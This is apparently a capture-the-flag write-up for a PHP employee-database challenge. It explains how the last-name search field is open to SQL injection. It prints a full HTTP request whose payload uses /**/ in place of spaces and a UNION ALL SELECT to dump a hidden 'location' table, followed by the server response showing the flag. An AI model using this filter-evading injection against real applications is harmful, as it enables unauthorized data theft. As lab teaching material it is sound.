

# Solution Write Up for 'Empolyee Management'
# Expected Behavior
The challange is a web SQL injection challenge.   The web interface reads and writes from an employee database.


# Solution

The key here is to figure out the injection is in the last name parameter of the read function, the table name is "location", spaces can be escaped with /**/, and a UNION will display two tables in one query.


The first clue is in the add employee page.  The user will get a message that the data has been added to two tables.  None of these fields are vulnerable to sql injection.


**Figure:** User being added to database

Next, when they go to the read page, they will see that results are only being displayed from one table - employee.  




The last name search field is vulnerable to sql injection, however, character sanitization is being used.  So basic SQL injection will not work.  The solution is to use a UNION with /**/ as spaces to display the location table which has been mentioned on the insert page.  The location table has the flag.  The sanitization prevents basic sqli testers from working.  

## Supporting solution info
[//]: <> (Add your full sulution scripts as files if applicable or use this section here to add a code block.)
```html
POST /read.php HTTP/1.1
Host: 192.168.7.97
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: http://192.168.7.97
Connection: close
Referer: http://192.168.7.97/read.php
Upgrade-Insecure-Requests: 1
 
lastname%3d'test'/**/union/**/all/**/select*from/**/location;=""&submit=View%20Results&lastname=p
```

### Expected output:

```
Response:

HTTP/1.1 200 OK
Date: Wed, 19 Aug 2020 15:06:08 GMT
Server: Apache/2.4.32 (Unix)
X-Powered-By: PHP/5.6.40
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 1007

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8" />
    <meta http-equiv="x-ua-compatible" content="ie=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />

    <title>Employeee Database Interface</title>

    <link rel="stylesheet" href="css/style.css" />
  </head>

  <body>
    <h1>Employee Database Interface</h1>
  </body>
</html>

    <h2>Results</h2>

    <table>
      <thead>
<tr>
  <th>First Name</th>
  <th>Last Name</th>
  <th>Location ID</th>
  <th>Age</th>
  <th>Date</th>
</tr>
      </thead>
      <tbody>
        <tr>
<td>2</td>
<td>ATR{N07 4LL PH1l73R2 R Cr3473D 3KW4l}</td>
<td>plano</td>
<td>tx</td>
<td>us</td>
      </tr>
          </tbody>
  </table>
  
<h2>Find employee based on last name</h2>

<form method="post">
  <label for="lastname">Last Name</label>
  <input type="text" id="lastname" name="lastname">
  <input type="submit" name="submit" value="View Results">
</form>

<a href="index.php">Back to home</a>

</body>
</html>
 ```

[//]: <> (Give an explination of the code and how to run it here. Make sure to explain the correct output so that anyone following allong can verify that it is running correctly.)


# Flag
[//]: <> (Add the flag below)
**ATR[N07 4LL PH1l73R2 R Cr3473D 3KW4l]**
